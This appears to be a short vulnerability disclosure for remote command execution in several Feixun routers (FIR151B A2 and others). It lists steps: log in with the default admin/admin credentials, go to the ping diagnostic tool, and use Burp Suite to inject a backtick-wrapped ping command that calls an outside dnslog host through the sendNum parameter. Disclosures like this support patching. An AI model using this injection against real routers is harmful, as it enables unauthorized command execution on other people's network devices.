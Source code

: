 The FIR151B A2、FIR302E A2、FIR300B A2 and so on routers has remote command execution

1. Login feixun FIR151B A2 router by default password admin /admin

2. Find the system tool → system diagnosis → Ping → Number of Ping packages. There is remote command execution at ping
![image](https://user-images.githubusercontent.com/96364879/182764818-1354beae-c366-4a9d-93f9-1d6f93d66bb0.png)

3. Enter the website IP at the IP address / domain name, for example: 8.8.8.8

4. Click Start diagnosis

5. Use burpsuite intercept and change sendNum argument to 4\`ping -c 2 1q2w3e.r4y19h.dnslog.cn\`, forward this request
![image](https://user-images.githubusercontent.com/96364879/182764708-02187474-579e-49ae-981f-b97c430ed02c.png)

6. See the dnslog results. The command has been executed successfully
![image](https://user-images.githubusercontent.com/96364879/182764779-28d2b740-6d67-42e5-9e24-0bc5c76cb4d6.png)
